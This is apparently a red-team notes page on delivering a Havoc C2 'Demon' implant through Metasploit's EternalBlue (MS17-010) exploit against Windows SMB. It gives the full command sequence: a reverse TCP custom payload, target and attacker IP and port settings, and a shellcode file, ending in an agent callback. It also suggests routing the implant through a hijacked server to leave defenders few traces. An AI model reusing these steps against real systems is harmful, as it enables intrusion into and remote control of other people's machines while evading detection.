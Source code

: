 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - havoc
  - windows
credits:
  - p4p1
---
```

# Havoc

> [!NOTE]
> This section is subjected to change with different exploits as they get patched as time passes.

Unlike [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Exploit Vulnerable Service/Cobalt Strike|cobalt strike]] exploitation setup. This particular payload type only requires a custom generated implant in this case **Havoc's Demon Agent**. We'll be using eternablue as an example.

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/custom/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```

Set the target's IP address.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts <target_IP>
```

Specify the C2's IP address and port. The best part about this is you can simply set the custom implant and use any SSH server (or hijacked server) as the only indicator of compromise that the defenders will look at the traces.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost <attacker_IP>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport <attacker_PORT>

msf6 exploit(windows/smb/ms17_010_eternalblue) > set shellcode_file /local/path/to/demon.x64.bin
```

Exploit the target and you should receive an agent callback on your C2.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

---
## References

### p4p1

- [p4p1: Extending Havoc payloads through metasploit](https://leosmith.wtf/blog/metasploit-and-havoc.html)